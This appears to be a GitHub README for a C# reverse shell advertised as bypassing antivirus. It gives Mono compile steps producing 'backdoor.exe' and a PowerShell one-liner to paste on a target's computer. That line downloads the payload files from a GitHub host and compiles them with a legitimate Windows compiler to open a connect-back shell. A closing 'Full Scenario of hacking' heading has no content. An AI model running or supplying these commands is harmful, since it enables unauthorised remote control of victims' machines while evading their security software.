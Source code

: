 # Reverse shell C# bypassing AV solutions  

## Compile code to .exe
To generate only a executable file, compile the script "reverse_shell_to_exe.cs" like that :
sudo apt install mono-complete  
mcs -out:backdoor.exe reverse_shell_to_exec.cs  
mono backdoor.exe  


## Live compiling via Powershell 
To get a reverse shell via a command line, copy paste the following payload directly on the target's computer 
(it will download the two files from github, compile them with the legit compiler of Windows and launch the connect back)

powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/S-crow/reverseShell/master/reverse_shell.cs', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell


## Full Scenario of hacking 




